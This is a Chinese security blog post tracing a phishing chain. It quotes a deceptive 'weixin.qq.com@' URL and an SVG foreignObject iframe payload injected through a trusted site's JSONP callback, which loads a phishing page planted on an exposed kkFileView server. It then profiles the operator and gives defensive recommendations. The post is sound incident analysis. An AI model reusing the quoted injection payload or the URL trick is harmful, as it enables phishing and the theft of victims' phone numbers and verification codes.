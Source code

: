> **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxNDkzNjQ0Mw==&mid=2247483963&idx=1&sn=d4147631169c4f3f4d59a9a061d95188

#  SVG 嵌套钓鱼溯源分析：基于可信域名 XSS 漏洞的黑产分发链追踪  
原创 小松X1aoS0ng  Test安全团队   2025-06-20 06:37  
  
## 一、事件概述  
  
近期捕获到一个疑似钓鱼链接  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGK8M2mpcY3N1Riba7MiaCgzyMhG3X5DXPwnAuTFyeqSAvcxKmcp98elR6g/640?wx_fmt=jpeg&from=appmsg "")  
  
链接结构如下：  

```
http://weixin.qq.com@hc.reg.xxx.com/api/item;is1ikwdkd94xz22di7fnxpaahc89/getItemByIdFromJsonp.action?callback=<svg>...</svg>
```

  
  
表面看似“微信官方网站”，实则指向 hc.reg.xxx.com 域名，参数中嵌入 SVG + <iframe> 结构，落地页面为：  

```
http://www.xxxxx.com.cn:8012/demo/Today1921.html?c=Z83mr1
```

  
  
通过对该 URL、iframe 加载内容与相关服务器进行溯源，我们发现这是一起典型的利用可信域名 XSS 或 JSONP 接口漏洞实现钓鱼分发的案例，背后涉及灰产平台的 **分发跳转器、手机号收集**  
、**交易截图伪造**  
等行为。  
## 二、SVG 注入载荷分析  
  
该钓鱼链接的核心攻击点位于 callback 参数，其被注入了一段 SVG+HTML 内容：  

```
<svg width=&#34;100%&#34; height=&#34;600&#34; xmlns=&#34;http://www.w3.org/2000/svg&#34;>
    <foreignObject width=&#34;100%&#34; height=&#34;100%&#34;>
              <div xmlns=&#34;http://www.w3.org/1999/xhtml&#34;>
           <head>
                            <meta name=&#34;viewport&#34; content=&#34;width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no&#34; />
           </head>
           <body style=&#34;margin:0;padding:0;overflow:hidden&#34;><iframe src=&#34;http://www.xxxxx.com.cn:8012/demo/Today1921.html?c=Z83mr1&#34; width=&#34;100%&#34; height=&#34;100%&#34; frameborder=&#34;0&#34; style=&#34;border:none&#34; /></body>
       </div>
    </foreignObject>
</svg>
```

  
**🎯 攻击目的**  
- **伪装**  
：利用 SVG 中的 <foreignObject> 标签嵌入真实 HTML 内容，加载恶意 iframe；  
  
- **欺骗用户**  
：通过 URL 中的 weixin.qq.com@ 迷惑用户以为是微信官方链接；  
  
- **加载钓鱼页**  
：iframe 指向攻击者控制的远程恶意页面；  
  
- **兼容移动端**  
：使用 <meta viewport> 提高在手机上的渲染效果。  
  
## 三、落地页面分析：重庆某协会 kkfileview 服务  
  
钓鱼 iframe 实际加载地址为：  

```
http://www.xxxxx.com.cn:8012/demo/Today1921.html?c=Z83mr1
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKib7GzHOvsAmASncd1ISV92wqF2Djvu83g5z8iaibZ7jhnoluGMYXibrl3Q/640?wx_fmt=jpeg&from=appmsg "")  
  
经查询发现该 IP 对应的是重庆某协会网站，部署了 kkFileView 文档预览服务，并未做访问控制，存在 **未授权访问漏洞**  
。攻击者将钓鱼页面部署在 /demo/ 路径下，隐藏于合法的文档演示路径中。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKmjEGoBicrsZzdBMwA2EYIZtTyq35oIVjz4m4ibfHZzyoXTkCdknSdzAg/640?wx_fmt=jpeg&from=appmsg "")  
## 四、行为追踪与溯源过程  
  
**1. 页面行为：**  
- 页面会根据请求头 User-Agent 或 Referer 判断来源；  
  
- 自动重定向至不同的 **伪装支付页面、跑分链接或个人交易页**  
；  
  
- 页面加载后立即发起网络请求，疑似用于记录手机号或投放其他内容。  
  
**2. 链接跳转分析：**  
  
通过分析 /demo/Today1921.html 中的跳转代码，发现页面内容被高度压缩并通过参数 ?c= 控制跳转逻辑，例如：  
  
var target = decode(c); window.location = target;  
  
其中 c=Z83mr1 实际上是跳转规则的一个索引或短链 ID，映射到攻击者后台维护的钓鱼分发链接池。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKsbBViaefGM3eky7S0ibhJagNeyWxLEYt4ia8NNo4kk6JJNmepU9UIYLKg/640?wx_fmt=jpeg&from=appmsg "")  
## 五、攻击者画像与域名溯源  
  
**1. Telegram 留痕**  
  
在钓鱼页面源码中发现部分注释与 JS 注入标识，包含攻击者的 Telegram 账号和支付方式，初步判断该人可能提供：  
- 域名防红服务  
  
- 钓鱼模板代挂  
  
- 防封自动跳转服务  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKDHgXFcuT7XZfCkM5wglGziaJI2aVPXicncFGseDiarbSciazyGnJjFTzTw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGK6aTTV0td4rtfwUM9icFfBDrnNwGNnxTE2dyywdicduAZksPXSeWq5IIw/640?wx_fmt=jpeg&from=appmsg "")  
  
**2. 钱包交易记录追查**  
  
**获利应该才3W多点**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKdr1x77tiawbtApiagfUrFn4wH2q0PI1s41fqN853b16ehhfgXZlm5vqw/640?wx_fmt=jpeg&from=appmsg "")  
  
**2. 域名绑定记录追查**  
  
在群组中翻到一个视频，存在一个域名  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKy0xpvr0dRWxeCMaRoWtRaXxn9yujJ7RibYLKm3XF8qhcrWiagI4T7iaCg/640?wx_fmt=jpeg&from=appmsg "")  
  
使用域名历史查询平台查找所绑定历史子域名、CNAME与 IP 地址关联记录，发现：  
- 攻击者曾挂载多个钓鱼页面在相同 IP；  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKpXlXADVyLKU3G2mcaFribped3NQiacUoDdT0hUdLVc5Xbj2rnvqmo8FQ/640?wx_fmt=jpeg&from=appmsg "")  
- 某域名可通过ICP备案信息查到实名注册人。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGK0tU7d7RdlSt1iayAMm7mJ0Olv559gfWnEJduj5b84VbVjOP81GIfvjQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/w4mWQyGCm56MU5Nt0h45GtuguMYryMGKAC5NKQ2FdJuiajibjkibuFIicuy1uRXiaRQ9hqQZ2Ocg0zlKq3UOOg5PrSw/640?wx_fmt=jpeg&from=appmsg "")  
## 六、灰产商业模式揭示  
  
本次钓鱼链接涉及的运作模式为典型的“钓鱼跳转分发服务”：  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;"><th style="box-sizing: border-box;padding: 6px 13px;font-weight: bold;border-width: 1px 1px 0px;border-top-style: solid;border-right-style: solid;border-left-style: solid;border-top-color: rgb(223, 226, 229);border-right-color: rgb(223, 226, 229);border-left-color: rgb(223, 226, 229);border-image: initial;border-bottom-style: initial;border-bottom-color: initial;margin: 0px;"><span cid="n88" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">环节</span></span></strong></span></span></th><th style="box-sizing: border-box;padding: 6px 13px;font-weight: bold;border-width: 1px 1px 0px;border-top-style: solid;border-right-style: solid;border-left-style: solid;border-top-color: rgb(223, 226, 229);border-right-color: rgb(223, 226, 229);border-left-color: rgb(223, 226, 229);border-image: initial;border-bottom-style: initial;border-bottom-color: initial;margin: 0px;"><span cid="n89" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">内容</span></span></strong></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n91" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">🧱 搭建</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n92" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">通过全网扫描攻击kkfileview 等平台搭建开放跳板</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n94" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">🎭 伪装</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n95" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">使用可信网站的 JSONP/XSS 漏洞挂载 SVG iframe 注入</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n97" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">🔗 分发</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n98" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">攻击者生成短链或跳转链接传给诈骗团伙</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n100" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">📱 钓鱼</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n101" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">iframe 引导用户进入钓鱼支付/登录页，窃取手机号/验证码</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border: 1px solid rgb(223, 226, 229);margin: 0px;padding: 0px;"><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n103" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 72.6406px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">💰 收费</span></span></span></td><td style="box-sizing: border-box;padding: 6px 13px;border: 1px solid rgb(223, 226, 229);margin: 0px;min-width: 32px;"><span cid="n104" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 492.359px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">提供“域名防红 + 渠道跳转”服务，对诈骗分子收费</span></span></span></td></tr></tbody></table>  
## 七、安全建议  
  
针对该类型钓鱼事件，建议相关平台与机构采取以下措施：  
1. **禁用或过滤 JSONP callback 参数中的 HTML 字符或 SVG 标签**  
；  
  
1. **关闭或限制公开文档预览服务（如 kkFileView）对 /demo/ 路径的访问**  
；  
  
1. **加强对 iframe 引入外链的 CSP 控制策略**  
；  
  
1. **利用安全网关拦截带 @ 字符的可疑 URL（如     weixin.qq.com@ 形式）**  
；  
  
1. **主动监测 SVG + foreignObject 结构在用户交互页面中的存在情况**  
。  
  
## 八、总结  
  
本事件揭示了黑产团伙如何通过一个极具迷惑性的 SVG 注入攻击，借助可信站点的开放接口，构建钓鱼跳板，诱导用户访问恶意 iframe 页面。通过技术分析与溯源，我们不仅识别了漏洞，还追踪到了背后的部署者及其盈利模型。  
  
建议下游厂商立即封堵相关攻击路径。  
  
该文章仅作学习，并对相关域名做脱敏处理，如有侵权请及时联系删除  
  
  
  
